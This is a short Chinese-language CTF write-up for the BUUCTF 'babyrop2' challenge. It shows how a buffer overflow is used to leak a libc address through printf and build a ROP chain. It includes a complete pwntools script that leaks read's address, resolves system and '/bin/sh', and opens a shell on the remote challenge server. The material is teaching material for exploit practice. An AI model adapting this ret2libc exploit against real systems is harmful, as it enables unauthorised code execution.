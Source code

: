 ### Printf 泄露 Libc

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67a98c62d0e0a243d4fdd766.png)

代码很简单

![](https://pic1.imgdb.cn/item/67a98c85d0e0a243d4fdd771.png)

read 的大小是 0x100，明显超过了 buf 存在溢出

![](https://pic1.imgdb.cn/item/67a98c9dd0e0a243d4fdd776.png)

没有可利用字符串及后门函数，需要泄露 libc 构造 ROP

使用 printf 泄露时需要用到两个及以上的参数

```c
int printf(const char *format, ...);
```

先去找 pop rdi;

![](https://pic1.imgdb.cn/item/67a98e5fd0e0a243d4fdd7f4.png)

参考 1.7 64 位 ROP 中，第二个参数需要用到 rsi 寄存器，继续去找

![](https://pic1.imgdb.cn/item/67a992fdd0e0a243d4fdd908.png)

第一个参数必须带有百分号，去利用现成的字符串

![](https://pic1.imgdb.cn/item/67a99422d0e0a243d4fdd9b4.png)

构造 payload

```python
from pwn import *
from LibcSearcher import *

p = remote('node5.buuoj.cn',29562)
elf = ELF('babyrop2')

pop_rdi = 0x0000000000400733
pop_rsi_r15 = 0x0000000000400731 
format_str = 0x0000000000400770  
ret_addr = 0x0000000000400734

printf_plt = elf.plt['printf']
read_got = elf.got['read']
main_plt = elf.sym['main']

payload = b'a' * 0x28 + p64(pop_rdi) + p64(format_str) + p64(pop_rsi_r15) + p64(read_got) + p64(0) + p64(printf_plt) + p64(main_plt)

p.recvuntil("name? ")
p.sendline(payload)

# 接收地址基本上都是 7 个字节的，7f 开头，补全 8 个字节
read_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))

libc = LibcSearcher('read', read_addr)
libc_base = read_addr - libc.dump('read')
sys_addr = libc_base + libc.dump('system')
bin_sh = libc_base + libc.dump('str_bin_sh')

payload = b'a' * 0x28 + p64(pop_rdi) + p64(bin_sh) + p64(sys_addr)

p.sendline(payload)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67a99a0ad0e0a243d4fddcea.png)
